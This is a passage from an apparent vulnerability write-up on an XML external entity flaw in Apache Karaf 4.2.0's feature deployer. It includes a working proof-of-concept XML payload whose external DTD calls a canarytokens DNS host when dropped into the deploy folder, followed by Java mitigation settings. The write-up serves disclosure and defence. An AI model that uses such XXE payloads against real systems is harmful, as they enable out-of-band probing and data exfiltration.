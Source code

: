 3 - Generate a DNS token on <a href="https://canarytokens.org/generate" target="_blank">https://canarytokens.org/generate</a>, e.g.27av6zyg33g8q8xu338uvhnsc.canarytokens.com

4 - Craft a XML file and add an external entity with the generated DNS token embedded in DTDs as below:

{% highlight xml %}

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>

{% endhighlight %}

5 - Copy the crafted XML file under folder deploy:

{% highlight java %}

apache-karaf-4.2.0$ cd deploy/
deploy$ tree
.
├── README
└── poc.xml

{% endhighlight %}

6 - Wait for a while, and then you will see the DNS requests from your testing machine, which means the XML parser is trying to load external entities embedded in DTDs.

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c4c5f19efd1c.png">

## Mitigation

Follow the OWASP guide below which provides concise information to prevent this vulnerability. <a href="https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet#Java" target="_blank">https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet#Java</a>

For instance, adding codes below to disable DTDs and external entities in function <a href="https://github.com/apache/karaf/blob/karaf-4.2.1/deployer/features/src/main/java/org/apache/karaf/deployer/features/FeatureDeploymentListener.java#L258" target="_blank">getRootElementName</a>.

{% highlight java %}

xif.setProperty(XMLInputFactory.SUPPORT_DTD, false); // This disables DTDs entirely for that factory
xif.setProperty("javax.xml.stream.isSupportingExternalEntities", false); // disable external entities

{% endhighlight %}

## Extra information
